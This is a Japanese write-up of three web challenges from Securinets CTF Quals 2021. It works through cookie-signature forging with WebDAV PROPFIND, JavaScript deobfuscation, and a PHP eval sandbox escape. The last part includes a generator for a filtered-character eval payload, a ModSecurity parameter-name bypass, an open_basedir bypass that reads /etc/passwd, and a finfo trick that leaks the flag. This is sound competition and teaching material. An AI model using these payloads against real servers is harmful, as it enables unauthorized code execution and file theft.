







3 月 21 日から 3 月 22 日にかけて開催された [Securinets CTF Quals 2021](https://ctftime.org/event/1308) に、チーム zer0pts として参加しました。最終的にチームで 12213 点を獲得し、順位は 1 点以上得点した 268 チーム中 4 位でした。うち、私は 2 問を解いて 1037 点を入れました。

他のメンバーが書いた writeup はこちら。

- [Securinets CTF 2021 Quals writeup - ふるつき](https://furutsuki.hatenablog.com/entry/2021/03/22/102747)

以下、私の writeup です。

## 競技時間中に解けた問題
### [Web 453] Warmup (40 solves)
> broken website :( !!
> 
> link: (URL)
> 
> Author:dali
> 
> 添付ファイル: task1.zip

Flask を使った Web アプリケーションのようです。…が、URL にアクセスしても 404 が表示されてしまいます。ソースコードを読んでいきましょう。

まず `@app.before_request` で登録されている関数を確認します。`is_authorized()` の結果が真でない場合には、その場でレスポンスが返されています。

メソッドが `OPTIONS` でない場合には、`WWW-Authenticate` というレスポンスヘッダに `Origin` リクエストヘッダの値を署名した文字列を設定してレスポンスを返しています。

```python
@app.before_request
def before_request():

        headers = {}
        headers['Access-Control-Max-Age'] = '3600'
        headers['Access-Control-Allow-Credentials'] = 'true'
        headers['Access-Control-Allow-Headers'] = \
            'Origin, Accept, Accept-Encoding, Content-Length, ' + \
            'Content-Type, Authorization, Depth, If-Modified-Since, '+ \
            'If-None-Match'
        headers['Access-Control-Expose-Headers'] = \
            'Content-Type, Last-Modified, WWW-Authenticate'
        origin = request.headers.get('Origin')
        headers['Access-Control-Allow-Origin'] = origin

        specific_header = request.headers.get('Access-Control-Request-Headers')

        if is_authorized():
            status_code = 200

        elif request.method == 'OPTIONS' and specific_header:
            headers['Access-Control-Request-Headers'] = specific_header
            headers['Access-Control-Allow-Methods'] = ', '.join(['GET', 'PUT', 'PROPFIND', 'DELETE','COPY', 'MOVE', 'OPTIONS'])
            response = make_response('', 200, headers)
            return response

        else:
            s = Signer(app.secret_key)
            headers['WWW-Authenticate'] = 'Nayookie login_url=' + \
                urlparse.urljoin(request.url_root,
                URI_BEGINNING_PATH['authorization']) + '?sig=' + \
                s.get_signature(origin) + '{&back_url,origin}'
            response = make_response('', 401, headers)
            return response

        g.status = status_code
        g.headers = headers
```

`is_authorized` の実装を確認しましょう。

ここでは、`Origin` ヘッダの値を Base64 エンコードした文字列をキーとする Cookie の値がチェックされています。

この Cookie の値が、`Origin` ヘッダと `User-Agent` ヘッダを結合した文字列を署名したものと一致していれば真を返しています。

```python
def generate_cookie_info(origin=None):

    if not origin:
        origin = request.headers.get('Origin')
    useragent = request.headers.get('User-Agent')
    return '%s %s' % (str(origin), str(useragent))

def verify_cookie(cookey):

    is_correct = False

    cookie_value = request.cookies.get(cookey)
    if cookie_value:
        s = Signer(app.secret_key)
        expected_cookie_content = \
            generate_cookie_info(base64_decode(cookey))
        expected_cookie_content = s.get_signature(expected_cookie_content)

        if expected_cookie_content == cookie_value:
            is_correct = True

    return is_correct

def is_authorized():

    origin = request.headers.get('Origin')
    if origin is None: 
        return True
    return verify_cookie(base64_encode(origin))
```

どのようなルートが存在しているか確認すると、以下のように `/weeb/wtf/` と `/weeb/wtf/<path:pathname>` があることがわかりました。

```python
weeb_view = weeb.as_view('dav')
app.add_url_rule(
    '/weeb/wtf/',
    defaults={'pathname': ''},
    view_func=weeb_view
)

app.add_url_rule(
    URI_BEGINNING_PATH['weeb'] + '<path:pathname>',
    view_func=weeb_view
)
```

それぞれどのような処理がされるか確認します。`GET`、`PUT` など様々なメソッドを受け付けているように見えますが、`PROPFIND` と `OPTIONS` 以外は全て 501 を返すようになっています。

```python
class weeb(MethodView):
    methods = ['GET', 'PUT', 'PROPFIND', 'DELETE','COPY', 'MOVE', 'OPTIONS']

    def __init__(self):
        self.baseuri = URI_BEGINNING_PATH['weeb']

    def get_body(self):

        request_data = request.data

        try:
            length = int(request.headers.get('Content-length'))
        except ValueError:
            length = 0

        if not request_data and length:
            try:
                request_data = request.form.items()[0][0]
            except IndexError:
                request_data = None
        return request_data

    def get(self, pathname):

        status = g.status
        headers = g.headers
        status = 501

        return make_response('', status, headers)

    # …

    def propfind(self, pathname):
        status = g.status
        headers = g.headers

        pf = utils.PropfindProcessor(
            URI_BEGINNING_PATH['weeb'] + pathname,
            app.fs_handler,
            request.headers.get('Depth', 'infinity'),
            self.get_body())
        try:
            response = make_response(pf.create_response() + '\n', status, headers)
        except IOError, e:
            response = make_response('Not found', 404, headers)

        return response

    # …

    def options(self, pathname):

        return make_response('', g.status, g.headers)
```

`PROPFIND /weeb/wtf/` を試してみましょう。署名周りの処理をした上で `PROPFIND /weeb/wtf/` する Python スクリプトを書きます。

```python
from itsdangerous import Signer, base64_encode, base64_decode
import requests
BASE = 'http://(省略)'

r = requests.get(BASE + '/', headers={
  'Origin': 'test '
})
sig = r.headers.get('WWW-Authenticate')
sig = sig[sig.index('sig=')+4:sig.index('{')]

print(sig)

r = requests.request('PROPFIND', BASE + '/weeb/wtf/', headers={
  'Origin': 'test',
  'User-Agent': ''
}, cookies={
  base64_encode('test').decode(): sig
})
print(r)
print(r.text)
```

実行してみると XML 形式でファイルの一覧が得られました。`weeb/wtf/static/FlAAaaaAGxe.wtf` という怪しげなパスも含まれています。これにフラグが含まれるのでしょう。

```
$ python test.py
0v5iCCjxIAcuRvsDRKNxfoXD6VI
<Response [200]>
<?xml version="1.0" encoding="utf-8"?><D:multistatus xmlns:D="DAV:"><D:response><D:href>:///weeb/wtf</D:href><D:propstat><D:prop><D:getcontentlength>0</D:getcontentlength><D:resourcetype/><D:creationdate>1616194551</D:creationdate><D:getlastmodified>1616194551</D:getlastmodified></D:prop><D:status>HTTP/1.1 200 OK</D:status></D:propstat></D:response><D:response><D:href>:///weeb/wtf/app.py</D:href><D:propstat><D:prop><D:getcontentlength>6608</D:getcontentlength><D:resourcetype/><D:creationdate>1616194463</D:creationdate><D:getlastmodified>1616194336</D:getlastmodified></D:prop><D:status>HTTP/1.1 200 OK</D:status></D:propstat></D:response><D:response><D:href>:///weeb/wtf/static</D:href><D:propstat><D:prop><D:getcontentlength>0</D:getcontentlength><D:resourcetype/><D:creationdate>1616194547</D:creationdate><D:getlastmodified>1616194547</D:getlastmodified></D:prop><D:status>HTTP/1.1 200 OK</D:status></D:propstat></D:response><D:response><D:href>:///weeb/wtf/static/style.css</D:href><D:propstat><D:prop><D:getcontentlength>427</D:getcontentlength><D:resourcetype/><D:creationdate>1616194547</D:creationdate><D:getlastmodified>1616194384</D:getlastmodified></D:prop><D:status>HTTP/1.1 200 OK</D:status></D:propstat></D:response><D:response><D:href>:///weeb/wtf/static/FlAAaaaAGxe.wtf</D:href><D:propstat><D:prop><D:getcontentlength>30</D:getcontentlength><D:resourcetype/><D:creationdate>1616194547</D:creationdate><D:getlastmodified>1616194441</D:getlastmodified></D:prop><D:status>HTTP/1.1 200 OK</D:status></D:propstat></D:response><D:response><D:href>:///weeb/wtf/utils.py</D:href><D:propstat><D:prop><D:getcontentlength>18538</D:getcontentlength><D:resourcetype/><D:creationdate>1616194547</D:creationdate><D:getlastmodified>1616191779</D:getlastmodified></D:prop><D:status>HTTP/1.1 200 OK</D:status></D:propstat></D:response><D:response><D:href>:///weeb/wtf/utils.pyc</D:href><D:propstat><D:prop><D:getcontentlength>15169</D:getcontentlength><D:resourcetype/><D:creationdate>1616194551</D:creationdate><D:getlastmodified>1616194551</D:getlastmodified></D:prop><D:status>HTTP/1.1 200 OK</D:status></D:propstat></D:response></D:multistatus>
```

`/static/FlAAaaaAGxe.wtf` にアクセスするとフラグが得られました。

```
$ curl http://(省略)/static/FlAAaaaAGxe.wtf
securinets{0ld_SchO0l_SHit:p}
```

```
securinets{0ld_SchO0l_SHit:p}
```

### [Web 584] Bypass TheEmperor's guards (35 solves)
> TheEmperor created an HTML form where he was trying to show that he can store his password there without any risk thanks to his faithful guards that will prevent anyone from getting access to the flag.
> 
> For simplicity reason, he knows that obfuscating so much the code would decrease its performance. That's why he only remained on his guards and for another simplicity reason, he didn't want to put a compact code (the code is beautified) since the objective is to test how powerful are his guards.
> 
> Now, bypass TheEmperor's guards and get a full access to the empire with his mighty flag.
> 
> (URL)

#### どんな問題?

与えられた URL にアクセスすると、パスワードを入力できるフォームが表示されました。適当なパスワードを入力して送信すると `Wrong password!` という `alert` が表示されます。



Chrome の DevTools の Network タブを開いて、フォームの送信時に通信が発生しているか確認しようとしましたが、どうやら `debugger` 文を使った解析妨害のためのコードが仕込まれているようで、いちいちスクリプトの実行が止まってしまって困ります。

こういうときには、以下の画像に示している `Deactivate breakpoints` というボタンを押してやると、DevTools を開いている場合でも Chrome は `debugger` 文を無視してスクリプトの実行を続けてくれます。


この状態で Network タブを開いてフォームの送信をしてみましたが、通信は一切発生していませんでした。どうやらパスワードのチェックはクライアント側で行っているようです。

ソースを確認してみると、以下のように難読化されていました。`_0x3936` のような特徴的な識別子、`debugger` 文による解析妨害、`_0x487fdb(0xd9, 'og)h')` のようによくわからない関数を呼び出して文字列等を取り出しているといった特徴から [JavaScript Obfuscator](https://github.com/javascript-obfuscator/javascript-obfuscator) による難読化であると推測できます。


#### 難読化されたコードの解析

とりあえず、パスワードが間違っている場合に呼び出される `alert` にブレークポイントを置いて、Call Stack からどこでパスワードのチェックがされているか確認しましょう。

そのために、まずは解析妨害を潰していきましょう。`Deactivate breakpoints` を切って `debugger` が実行された際の Call Stack を確認すると、`index.html` の 1029 行目からこの関数が呼び出されていることがわかります。



確認してみると、とんでもなく長い行でなにがなんだかよくわからない関数を呼んでいる様子が確認できます。

JavaScript Obfuscator のソースコードを確認すると、この辺りの処理は [`debugger` 文による解析妨害用のテンプレート](https://github.com/javascript-obfuscator/javascript-obfuscator/blob/252b901b6954ba91cb1a82fa8a7b048e5ebbffeb/src/custom-code-helpers/debug-protection/templates/debug-protection-function/DebuggerTemplate.ts)の構造と似ていることに気づきます。どちらも `true` を返す関数の `constructor` を取り出し、関数の本体を `debugger` とした関数を呼び出しています。

`index.html` の 1026 行目から 1034 行目をコメントアウトしてやると、`debugger` によってスクリプトの実行を止められることがなくなりました。



DevTools の Console タブで `alert = () => { debugger; };` を実行し、`alert` が呼び出された際にデバッガがスクリプトの実行を止めるよう設定します。

適当なパスワードを入力して送信すると、`index.html` の 965 行目、`validateform` という関数内から呼び出されていることがわかりました。



`alert` が呼ばれているのは以下の箇所です。ここは `for` 文中で、`_0x2a4440[_0x2194d3]` と `flag[_0x2194d3][_0x2194d3]` が一致していなければ `Wrong password!` と表示する処理をしています。`_0x2194d3` はループ変数でしょう。



`_0x2a4440` はフォームに入力したパスワードですから、これと比較されている `flag[_0x2194d3]` の `_0x2194d3` 文字目を集めればパスワードが得られそうです。やってみましょう。

`flag.map((s, i) => s[i]).join('')` を実行すると `Securinets{TheEmeror_grant_you_s4f3ty_in_th3_Empire}` という文字列が得られました。

これをパスワードとして入力すると、以下のようにパスワードが正しい旨のメッセージが表示され、フラグであるとわかりました。



```
Securinets{TheEmeror_grant_you_s4f3ty_in_th3_Empire}
```

## 競技終了後に解いた問題
### [Web 995] w3f (5 solves)
> link: (URL)
> 
> Note:flag location is /
> 
> Author:dali
> 
> 添付ファイル: 000-default.conf

与えられた URL にアクセスすると、以下のような PHP コードが表示されました。`cmd` という GET パラメータを `eval` してくれるようですが、`waf` という関数によって使える文字種が制限されています。

```php
<?php

error_reporting(0);
function waf($str){
     for($i=0;$i<=strlen($str)-1;$i++){
        if ((ord($str[$i])<32) or (ord($str[$i])>126)){
            header("HTTP/1.1 403 Forbidden" );
                        exit;
        }
     }
     $blacklist = ['[A-Zb-df-km-uw-z]',' ', '\t', '\r', '\n','\'', '"', '`', '\[', '\]','\$','\\','\^','~'];
        foreach ($blacklist as $blackitem) {
                if (preg_match('/' . $blackitem . '/m', $str)) {
                        header("HTTP/1.1 403 Forbidden" );
                        exit;
                        //die('You are forbidden!');
                }
        }
}
if(!isset($_GET['cmd'])){
    show_source(__FILE__);
}else{
        $str = $_GET['cmd'];
       
        waf($str);
        eval('echo '.$str.';');
}
?>
```

#### WAF バイパス
試しに `?cmd=7*7` にアクセスしてみましたが、`You don't have permission to access this resource.` と怒られてしまいました。どうしてでしょうか。


与えられた `000-default.conf` を見るとその理由がわかります。以下のように、`SecRule ARGS:cmd "!@within 1" …` と ModSecurity によって `cmd` のチェックがされています。`cmd` が `1` でない場合には弾かれるようになっています。そんな…。

```
<VirtualHost *:80>
	#…
	ServerAdmin webmaster@localhost
	DocumentRoot /var/www/html
	SecRuleEngine On
        SecRule ARGS:cmd "!@within 1" "id:1234,deny,status:403,msg:'Our test rule has triggered'"
	#…
</VirtualHost>
```

色々試していると、`?+cmd=7*7` のようにパラメータ名の前にスペースを入れてやるとバイパスできることがわかりました。

#### 好きなコードを実行できるようにする
`waf` のチェックをバイパスして好きなコードを実行できるようにする方法を考えましょう。まず、使える文字種を確認します。

```php
<?php
error_reporting(0);

function waf($str) {
  $blacklist = ['[A-Zb-df-km-uw-z]',' ', '\t', '\r', '\n','\'', '"', '`', '\[', '\]','\$','\\','\^','~'];
  foreach ($blacklist as $blackitem) {
    if (preg_match('/' . $blackitem . '/m', $str)) {
      return FALSE;
    }
  }

  return TRUE;
}

$res = '';
for ($c = 32; $c < 127; $c++) {
  if (waf(chr($c)))
    $res .= chr($c);
}
echo $res . "\n";
```

実行すると `!#%&()*+,-./0123456789:;<=>?@\_aelv{|}` しか使えないことがわかります。それだけ…?

```
$ php check.php
!#%&()*+,-./0123456789:;<=>?@\_aelv{|}
```

よく似た過去問に [RCTF 2020 の Calc](2020-06-01-rctf2020.html#web-285-calc-51-solves) や [TetCTF 2021 の Super Calc](https://ctftime.org/task/14424) があります。RCTF 2020 の Calc と比較するとこの問題では `~` が使えなくなっているのが少し面倒ですが、`eval` のようなアルファベットが使えるのはよさげです。

やることは RCTF 2020 の Calc とほとんど同じです。[以前書いたもの](2020-06-01-rctf2020.html#web-285-calc-51-solves)をいじって `eval($_COOKIE{0});` に相当するコードを生成する PHP スクリプトを書きましょう。

```php
<?php
// utils
function add(&$table, $k, $v) {
  if (array_key_exists($k, $table) && strlen($v) >= strlen($table[$k])) {
    return;
  }

  $table[$k] = $v;
}

function go(&$table) {
  $keys = array_keys($table);

  foreach ($keys as $ck) {
    foreach ($keys as $dk) {
      $cv = $table[$ck];
      $dv = $table[$dk];

      add($table, ord(chr($ck) | chr($dk)), "(({$cv})|({$dv}))");
      add($table, ord(chr($ck) & chr($dk)), "(({$cv})&({$dv}))");
    }
  }
}

function dump_table($table) {
  $keys = array_keys($table);
  sort($keys);

  $res = '';

  foreach ($keys as $k) {
    if (0x20 <= $k && $k < 0x7f) {
      $res .= chr($k);
    }
  }

  echo $res . "\n";
}

function encode($table, $s) {
  $res = '';

  for ($i = 0; $i < strlen($s); $i++) {
    $res .= '(' . $table[ord($s[$i])] . ').';
  }

  return substr($res, 0, -1);
}

// init
$table = [];

// 0-9
for ($c = 0x30; $c <= 0x39; $c++) {
  $d = chr($c);
  $s = "(({$d}).(0))" . '{0}';
  $table[$c] = $s;
}

$table[ord('.')] = '((0.1).(0)){1}';
$table[ord('-')] = '(((-1).(1)){0})';
$table[ord('+')] = '(((10**19).(1)){4})';
$table[ord('E')] = '((10**19).(0)){3}';
$table[ord('I')] = '(((1/0).(1/0)){0})';
$table[ord('N')] = '(((1/0).(1/0)){1})';
$table[ord('F')] = '(((1/0).(1/0)){2})';

$table[ord('e')] = '(e)';
$table[ord('v')] = '(v)';
$table[ord('a')] = '(a)';
$table[ord('l')] = '(l)';

// make table
go($table);
go($table);

// yay
$payload = 'eval((START.DOLLAR._.COOKIE.POYO.END))';
$payload = preg_replace('/DOLLAR/', encode($table, '$'), $payload);
$payload = preg_replace('/COOKIE/', encode($table, 'COOKIE'), $payload);
$payload = preg_replace('/POYO/', encode($table, '{0}'), $payload);
$payload = preg_replace('/START/', encode($table, 'eval('), $payload);
$payload = preg_replace('/END/', encode($table, ');'), $payload);

$len = strlen($payload);
echo "length: {$len}\n$payload\n";
echo urlencode($payload) . "\n";
```

これを実行すると、以下のようにコードが生成されました。

```
$ php gen.php
length: 485
eval((((e)).((v)).((a)).((l)).(((((8).(0)){0})&((l)))).(((((4).(0)){0})&((e))))._.(((((((2).(0)){0})&((((1/0).(0)){1}))))|((((((1/0).(0)){0}))&((e)))))).((((((1/0).(0)){0}))|((((1/0).(0)){1})))).((((((1/0).(0)){0}))|((((1/0).(0)){1})))).((((((1/0).(0)){0}))|(((((2).(0)){0})&((((1/0).(0)){1})))))).((((1/0).(0)){0})).(((10**19).(0)){3}).(((((2).(0)){0})|((((1/0).(0)){0})))).(((0).(0)){0}).(((((1).(0)){0})|((l)))).(((((9).(0)){0})&((((e))|((l)))))).(((((2).(0)){0})|(((9).(0)){0})))))
eval%28%28%28%28e%29%29.%28%28v%29%29.%28%28a%29%29.%28%28l%29%29.%28%28%28%28%288%29.%280%29%29%7B0%7D%29%26%28%28l%29%29%29%29.%28%28%28%28%284%29.%280%29%29%7B0%7D%29%26%28%28e%29%29%29%29._.%28%28%28%28%28%28%282%29.%280%29%29%7B0%7D%29%26%28%28%28%281%2F0%29.%280%29%29%7B1%7D%29%29%29%29%7C%28%28%28%28%28%281%2F0%29.%280%29%29%7B0%7D%29%29%26%28%28e%29%29%29%29%29%29.%28%28%28%28%28%281%2F0%29.%280%29%29%7B0%7D%29%29%7C%28%28%28%281%2F0%29.%280%29%29%7B1%7D%29%29%29%29.%28%28%28%28%28%281%2F0%29.%280%29%29%7B0%7D%29%29%7C%28%28%28%281%2F0%29.%280%29%29%7B1%7D%29%29%29%29.%28%28%28%28%28%281%2F0%29.%280%29%29%7B0%7D%29%29%7C%28%28%28%28%282%29.%280%29%29%7B0%7D%29%26%28%28%28%281%2F0%29.%280%29%29%7B1%7D%29%29%29%29%29%29.%28%28%28%281%2F0%29.%280%29%29%7B0%7D%29%29.%28%28%2810%2A%2A19%29.%280%29%29%7B3%7D%29.%28%28%28%28%282%29.%280%29%29%7B0%7D%29%7C%28%28%28%281%2F0%29.%280%29%29%7B0%7D%29%29%29%29.%28%28%280%29.%280%29%29%7B0%7D%29.%28%28%28%28%281%29.%280%29%29%7B0%7D%29%7C%28%28l%29%29%29%29.%28%28%28%28%289%29.%280%29%29%7B0%7D%29%26%28%28%28%28e%29%29%7C%28%28l%29%29%29%29%29%29.%28%28%28%28%282%29.%280%29%29%7B0%7D%29%7C%28%28%289%29.%280%29%29%7B0%7D%29%29%29%29%29
```

これを利用して、確かに `$_COOKIE[0]` が実行されているか確認する Python スクリプトを書きます。

```python
import requests
import urllib.parse

code = '''
echo "yay"
'''

URL = 'http://(省略)/?+cmd=(先程生成したコード)'

r = requests.post(URL, cookies={
  '0': urllib.parse.quote('eval($_POST[0]);')
}, data={
  '0': code
})
print(r.text)
```

実行してみると、無事にサーバで `echo "yay";` というコードが実行されていることが確認できました。

```
$ python test.py
yay
```

#### `open_basedir` バイパス
試しに `passthru('ls');` や `shell_exec('ls');` を実行してみましたが、反応がありません。`phpinfo();` で `disable_functions` によってこれらの関数の実行が制限されていないか確認すると、かなりの数の関数の仕様が制限されていることがわかります。`disable_classes` にもかなりの数のクラスが設定されています。



`open_basedir` も `/var/www/html/` に設定されています。問題文によればフラグは `/` にあるようですから、`/var/www/html/` 下のファイルしか読めないとなると困ります。

とりあえず、まず使える関数やクラスを確認する PHP スクリプトを書きましょう。

```php
<?php
function get_diff($a, $b) {
  $a = file_get_contents($a);
  $a = str_replace(' ', '', $a);
  $a = explode(',', $a);

  return implode(', ', array_diff($b, $a)) . "\n";
}

echo "functions: " . get_diff('disable_functions.txt', get_defined_functions()['internal']);
echo "classes: " . get_diff('disable_classes.txt', get_declared_classes());
```

実行します。問題サーバで使われている PHP のバージョンは 7.2.34 ですからFFI 関連のクラスはないでしょうが、有用そうな関数やクラスがいくつかあります。

```
$ php check.php 
functions: strlen, error_reporting, preg_match, phpinfo, ord, getenv, show_source, ini_set, header, chdir, cli_get_process_title
classes: Exception, ErrorException, CompileError, ClosedGeneratorException, WeakReference, ReflectionReference, SodiumException, FFI\Exception, FFI\ParserException, FFI, FFI\CData, FFI\CType, finfo, JsonException
```

特に `chdir` が重要で、実は[これを使った `open_basedir` のバイパス手法](https://blog.shpik.kr/php,/bypass,/open_basedir/2019/04/05/PHP_Open_basedir_Bypass.html)が存在しています。この問題でも使えないでしょうか。

---

競技時間中はここまでしかできませんでした。というのも、今紹介した `open_basedir` のバイパス手法のひとつは、`open_basedir` に設定されているディレクトリ (今回では `/var/www/html`) 下にあるディレクトリに `chdir` できることが前提条件であり、この問題では `/var/www/html` 下にあるディレクトリの存在がわからなかったためです。

競技終了後に公式 Discord サーバを眺めていると、実は `images` というディレクトリがあることがわかりました。なんじゃそりゃ。試してみましょう。

以下のようなコードを実行させてみます。

```
error_reporting(E_ALL);
ini_set('display_errors', 1);
chdir('images');
ini_set('open_basedir', '..');
chdir('..');
chdir('..');
chdir('..');
chdir('..');
chdir('..');
chdir('..');
ini_set('open_basedir', '/');
show_source('/etc/passwd');
```

`/etc/passwd` を読み出すことができました 🥺

```
$ python test.py
<code><span style="color: #000000">
root:x:0:0:root:/root:/bin/bash<br />daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin<br />bin:x:2:2:bin:/bin:/usr/sbin/nologin<br />sys:x:3:3:sys:/dev:/usr/sbin/nologin<br />sync:x:4:65534:sync:/bin:/bin/sync<br />games:x:5:60:games:/usr/games:/usr/sbin/nologin<br />man:x:6:12:man:/var/cache/man:/usr/sbin/nologin<br />lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin<br />mail:x:8:8:mail:/var/mail:/usr/sbin/nologin<br />news:x:9:9:news:/var/spool/news:/usr/sbin/nologin<br />uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin<br />proxy:x:13:13:proxy:/bin:/usr/sbin/nologin<br />www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin<br />backup:x:34:34:backup:/var/backups:/usr/sbin/nologin<br />list:x:38:38:Mailing&nbsp;List&nbsp;Manager:/var/list:/usr/sbin/nologin<br />irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin<br />gnats:x:41:41:Gnats&nbsp;Bug-Reporting&nbsp;System&nbsp;(admin):/var/lib/gnats:/usr/sbin/nologin<br />nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin<br />_apt:x:100:65534::/nonexistent:/usr/sbin/nologin<br /></span>
</code>
```

#### フラグを得る
`open_basedir` はバイパスできましたが、まだやるべきことがあります。フラグを取得しなければいけませんが、どのようなファイル名で保存されているかわかりません。

このような場合に使えるテクとして、[`new finfo(1, '.');` であるディレクトリ下のファイルを無理やり読み込ませて、エラー情報から内容を得る](https://ngaa.tistory.com/m/16?category=714704)というものがあります。やってみましょう。

先程の `open_basedir` バイパスのコードの後ろに `new finfo(1, '.');` を付け加えて実行してみると、フラグが得られました。

```
$ python test.py
<br />
<b>Notice</b>:  finfo::finfo(): Warning: offset `&lt;?php' invalid in <b>/var/www/html/index.php(26) : eval()'d code(1) : eval()'d code(1) : eval()'d code(1) : eval()'d code</b> on line <b>13</b><br />
<br />
<b>Notice</b>:  finfo::finfo(): Warning: offset `$flag='securinets{87E4C6A81CD3104AE4ADBF0758268134D0B}';' invalid in <b>/var/www/html/index.php(26) : eval()'d code(1) : eval()'d code(1) : eval()'d code(1) : eval()'d code</b> on line <b>13</b><br />
<br />
…
```

```
securinets{87E4C6A81CD3104AE4ADBF0758268134D0B}
```